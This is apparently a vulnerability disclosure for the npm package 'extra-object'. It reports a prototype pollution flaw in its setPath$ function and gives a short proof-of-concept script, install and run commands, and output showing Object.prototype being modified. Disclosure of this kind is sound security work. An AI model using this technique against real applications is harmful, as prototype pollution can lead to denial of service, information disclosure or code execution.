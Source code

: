 # Description

`extra-object` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var extraObject = require("extra-object")
var obj = {}
console.log("Before : " + {}.polluted);
extraObject.setPath$(obj, ['__proto__','polluted'],'Yes! Its Polluted' );
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i extra-object # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
